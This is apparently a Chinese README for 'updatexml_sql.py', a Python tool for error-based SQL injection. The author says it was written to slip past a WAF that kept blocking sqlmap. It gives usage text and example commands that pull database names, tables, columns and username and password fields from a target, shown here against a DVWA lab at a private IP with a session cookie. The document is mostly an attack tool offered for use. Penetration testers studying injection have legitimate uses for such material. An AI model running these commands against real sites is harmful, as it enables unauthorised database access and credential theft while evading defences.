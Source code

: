 # updatexml
updataxml注入小工具

在某项目中遇到了需要通过updataxml注入获取大量数据的需求，但是由于服务器上有waf，sqlmap很容易就被封了，而且只能指定注入类型使用报错注入，但是不能指定注入语句，感觉sqlmap发送的很多语句都不是必须的，所以自己写了这个工具，简单粗暴的指定了几个uodatexml直接注入获取数据库，数据表等的指定语句，去除了多余的探测。

#### 使用要求
- python3.x

#### 使用方法
- 总体操作方法和sqlmap一样
1. 参数
```
usage: updatexml_sql.py [-h] [-u URL] [-r FILE] [-p PARAMETER] [-s PROTOCOL]
                        [-cookie COOKIE] [--current] [--tables] [--columns]
                        [-D DATABASE] [-T TABLE] [-C COLUMN]

SQL Updatexml

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url with GET method
  -r FILE, --file FILE  Start scanning url with POST method, Request body
  -p PARAMETER, --parameter PARAMETER
                        Which parameter can be injected
  -s PROTOCOL, --protocol PROTOCOL
                        If you use -r, should add http or https
  -cookie COOKIE, --cookie COOKIE
                        cookie
  --current             Get database
  --tables              Get tables
  --columns             Get columns
  -D DATABASE, --database DATABASE
                        Which Database need get data
  -T TABLE, --table TABLE
                        Which Table need get data
  -C COLUMN, --column COLUMN
                        Which columns need get data
```
**注意事项（重要！！）：** 
- 如果是字符型注入请自己在URL或者post包里面的注入参数的地方加上单引号或者双引号！

2. Get方式的直接输入url和指定注入的参数（必须）
```
python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id --current  //--current是获取当前数据库,-p指定存在注入的参数，且如果是字符型注入，在注入参数的地方自己加上单引号或者双引号

python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id -D dvwa --tables //获取数据表

python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id -D dvwa -T user --columns  //获取字段

python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id -D dvwa -T user -C user_id,username,password //获取指定字段的值

python3 updatexml_sql.py -u http://192.168.76.154/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit -p id --current -cookie 'security=impossible; PHPSESSID=6c7qeijtq9ht3h1t54m0p60p20' //-cookie 指定cookie
```
3.POST请求使用读取请求头文件的方式
```
python3 -r header.txt -s https -p id --current  // 注意使用-s参数指定是http还是https
```
